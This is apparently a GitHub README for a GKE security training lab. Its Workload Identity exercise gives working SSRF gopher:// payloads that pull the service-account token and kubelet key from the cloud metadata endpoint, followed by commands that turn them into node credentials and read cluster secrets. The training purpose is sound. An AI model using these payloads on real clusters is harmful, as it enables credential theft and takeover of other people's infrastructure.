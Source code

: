 # training-gke-security
This repository is for training of GKE Security

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/training-gke-security&page=editor&cloudshell_tutorial=README.md)

### Preparation
- Set project id
```bash
gcloud config set project PROJECT_ID
```

- Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

- Create GKE Cluster
```bash
gcloud container clusters create gke-security-testing --zone us-central1-a --machine-type g1-small --num-nodes 3 --async
```

- Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

- Testing
```
kubectl get node
```

### Exercise 1: PodSecurityPolicy
- Apply k8s manifest and run
- See credentials

- How to block

### Exercise 2: Workload Identity
- Apply k8s manifest
```
kubectl apply -f manifest -R
```
(Please don't expose deployment on the Internet through Service.)

- Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080
```

- Open Web Preview
<img src="img/web-preview.png" width="320">

- Input url (for testing)
```
https://www.google.com
```

- Input malicious url
  - Get instance token (doesn't use it in this training)
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

  - Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

- ctrl+A and store all result to `metadata_exploit/metadata.txt` file
TODO: ADD image

- store
```bash
cd metadata_exploit

# Extract necessary data from metadata
bash extract.sh
ls -l metadata

# Get node permission
bash exploit.sh $(cat metadata/nodename)

# Set env vars
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)"
echo $KUBE_OPT

# Get secretName
kubectl $KUBE_OPT get pod -o yaml | grep secretName
        secretName: default-token-8dhcz
        secretName: default-token-8dhcz
        secretName: default-token-8dhcz

# Get secret
kubectl $KUBE_OPT get secret default-token-8dhcz -o yaml
```

### (After this training) Clean cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
